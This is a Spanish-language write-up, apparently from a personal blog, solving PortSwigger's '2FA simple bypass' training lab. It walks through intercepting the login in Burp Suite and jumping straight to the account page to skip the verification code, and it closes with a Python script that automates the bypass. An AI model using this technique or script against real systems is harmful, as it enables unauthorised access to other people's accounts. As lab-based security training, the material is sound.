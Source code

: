 ```yaml
---
title: "02 2FA simple bypass"
collection: publications
category: portswigger
permalink: publications/Authentication/02 2FA simple bypass
excerpt: 'La autenticación de dos factores de este laboratorio se puede eludir. Ya has obtenido un nombre de usuario y una contraseña válidos, pero no tienes acceso al código de verificación 2FA del usuario.'
date: 2024-12-03
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: '2FA simple bypass'
---
```


![logo]({{site.url}}/images/Authentication/authentication-lab-02/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Authentication/authentication-lab-02/descripcion.png)

## Objetivo del laboratorio

Para resolver el laboratorio, accede a la página de la cuenta de Carlos.

## Recursos Necesarios

* [Nombre usuarios](https://portswigger.net/web-security/authentication/auth-lab-usernames)
* [Contraseñas](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Procedimiento

Este deberia ser el procedimiento para realziar el 2FA correctamente.
En la descripción del laboratorio nos dan un usuario el cual podemos loguear. Procedemos a loguearnos y miramos el intercambio que se presenta cuando hacemos login.

Credenciales: `wiener:peter`
Credenciales de la victima: `carlos:montoya`

![2FA]({{site.url}}/images/Authentication/authentication-lab-02/2fa.png)

Una vez realizado el login, nos pide que ingresemos un codigo que nos fue enviado al correo. El correo lo simula la plataforma en el boton que dice `Email client` ingresamos ahi y copiamos el codigo y lo pegamos donde se solicita e interceptamos la petición de envio de codigo.

![Codigo]({{site.url}}/images/Authentication/authentication-lab-02/codigo.png)

Interceptado el codigo, vemos la petición que se llama `/login2` y envia el codigo que previamente ingresamos

![Codigo2]({{site.url}}/images/Authentication/authentication-lab-02/codigo2.png)

## Saltando el 2FA 

Vamos a evitar que nos solicite el 2FA y simular que no tenemos acceso al correo de `carlos`.
Logueamos con las credenciales de `carlos` e interceptamos la petición con BurpSuite

![Intercept]({{site.url}}/images/Authentication/authentication-lab-02/intercept.png)

Procedemos a oprimir el botón de `Forward` para seguir con la siguiente petición. Cambiamos en la url `my-account` precionamos ENTER para que nos lleve a la pagina y no nos pida 2FA. Y dejamos de interceptar la petición.

![Logueo]({{site.url}}/images/Authentication/authentication-lab-02/logueo.png)

Y vemos que nos hemos saltado la petición del 2FA.

# Codigo Python
```python
import requests
import sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.01:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(s, url):

    # Log into Carlos's account
    print("(+) Logging into Carlos's account and bypassing 2FA verification...")
    login_url = url + "/login"
    login_data = {"username": "carlos", "password": "montoya"}
    r = s.post(login_url, data=login_data, allow_redirects=False, verify=False, proxies=proxies)

    # Confirm bypass
    myaccount_url = url + "/my-account"
    r = s.get(myaccount_url, verify=False, proxies=proxies)
    if "Log out" in r.text:
        print("(+) Successfully bypassed 2FA verification.")
    else:
        print("(-) Exploit failed.")
        sys.exit(-1)

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)
    
    s = requests.Session()
    url = sys.argv[1]
    access_carlos_account(s, url)

if __name__ == "__main__":
    main()
```